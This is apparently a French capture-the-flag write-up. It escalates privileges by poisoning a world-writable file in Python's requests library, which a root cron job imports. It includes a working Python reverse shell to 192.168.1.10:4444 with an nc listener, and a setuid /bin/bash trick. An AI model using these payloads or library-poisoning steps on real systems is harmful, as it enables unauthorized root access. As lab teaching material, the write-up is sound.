 # WRITE-UP FATAL REQUEST

## Environnement

Une fois que l'on est sur la machine, on peut voir un message de Franck qui mentionne un script intéressant.

Après un peu de reconnaissance sur la machine on retrouve le fichier dans `/scripts/web_grabber.py`.

> One liner des enfer pour trouver les scripts sur une machine :
`for l in $(echo ".py .pyc .pl .jar .c .sh");do echo -e "\nExtension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done`

Le *web_grabber* écrit son retour dans `/tmp/data.txt` et on peut voir avec le timestamp que le script est exécuté toute les minutes.

Cela nous pointe vers l'utilisation d'une tâche planifiée que l'on peut retrouver dans **crontab** sur la machine :

```bash
cat /etc/crontab
---
* * * * * root python3 /scripts/web_grabber.py
```

Le script est bien exécuté toutes les minutes par le compte root.

Il doit y avoir quelques chose à faire pour injecter une commande dans ce script...

## Exploitation de permissions

> TLDR: commande `find / -type f -writable 2> /dev/null` ou Linpeas pour trouver les permissions inappropriées sur la machine.

On sait que le script a des problèmes de permission sur lesquels on doit sûrement mettre le doigt.

Les droits en écritures sur le script ne sont accordés qu'à `root`, on ne peut donc pas modifier le contenu pour y ajouter une commande.

On peut vérifie les imports (indice dans le nom du challenge) et on vient tatonner du côté des librairies utilisées avec :

```bash
pip3 show requests
---
Name: requests
Version: 2.32.3
Summary: Python HTTP for Humans.
Home-page: https://requests.readthedocs.io
Author: Kenneth Reitz
Author-email: me@kennethreitz.org
License: Apache-2.0
Location: /usr/local/lib/python3.10/site-packages
Requires: certifi, charset-normalizer, idna, urllib3
```

On va donc naviguer dans les fichiers de la bibliothèque et on remarque qu'un des submodules de requests a des **permissions en écriture** par les utilisateurs.

```bash
ls -al /usr/local/lib/python3.10/site-packages/requests/
drwxr-xr-x 3 root root  4096 Mar 12 17:19 .
drwxr-xr-x 1 root root  4096 Mar 12 17:19 ..
-rw-r--r-- 1 root root  5072 Mar 12 17:19 __init__.py
[...]
-rw-r--r-- 1 root root 27451 Mar 12 17:19 adapters.py
-rw-r--rw- 1 root root  6449 Mar 12 17:19 api.py
-rw-r--r-- 1 root root 10186 Mar 12 17:19 auth.py
[...]
```

## Ajouter du code malicieux dans la bibliothèque requests

### Méthode 1

On ajoute dans la fonction `requests.get()` un reverse shell python :

```bash
import os,pty,socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.10",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("sh")
```

Et on attend qu'il revienne avec :

```bash
nc -lnvp 4444
```

### Méthode 2

On peut ajouter un bit setuid sur */bin/bash* pour pouvoir s'élever en root :

```bash
# adding suid to /bin/bash
os.system("chmod u+s /bin/bash")
# then launch bash with -p
/bin/bash -p
```
